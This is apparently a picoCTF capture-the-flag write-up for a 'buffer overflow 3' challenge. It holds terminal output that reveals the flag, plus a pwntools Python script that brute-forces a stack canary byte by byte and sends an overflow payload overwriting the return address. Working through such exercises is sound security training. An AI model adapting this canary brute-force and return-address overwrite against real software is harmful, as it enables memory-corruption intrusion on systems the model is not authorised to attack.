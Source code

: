  -> terminal :

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$ cat input.txt | ./vuln                     
How Many Bytes will You Write Into the Buffer?
> Input> Ok... Now Where's the Flag?
picoCTF{fi_khater_smail}
zsh: done                cat input.txt | 
zsh: segmentation fault  ./vuln
```

 - For a local exploit, it is easy to pass the canary with address to get the flag. But in a remote environnement, we don't have the value of that canary. So we need to use a brute force script that try to guess the canary, character by character, and then add the second part of the exploit string to finish the attack. here is how it is done locally :

```python
#! /usr/bin/python3


from pwn import *
from string import printable
import time



canary_length = 4
buffer_length = 64

i = buffer_length + 1

canary = ""

# Brute Force the Canary

while i <= buffer_length + canary_length :
    for c in printable :
        p = process('./vuln')

        p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(i).encode())
        p.sendlineafter(b'Input> ', ('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary + c).encode())

        if p.recvline().decode() == "Ok... Now Where's the Flag?\n" :
            canary += c
            print(f"canary to go : {canary}")
            i += 1
            # To check if the canary is constructed correctly
            # time.sleep(5)
            break

        p.close()

p = process('./vuln')

p.sendlineafter(b'How Many Bytes will You Write Into the Buffer?', str(88).encode())
payload = (b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' + canary.encode() + b'raaasaaataaauaaa\x36\x93\x04\x08')
p.sendlineafter(b'Input> ',payload)
p.interactive()
```
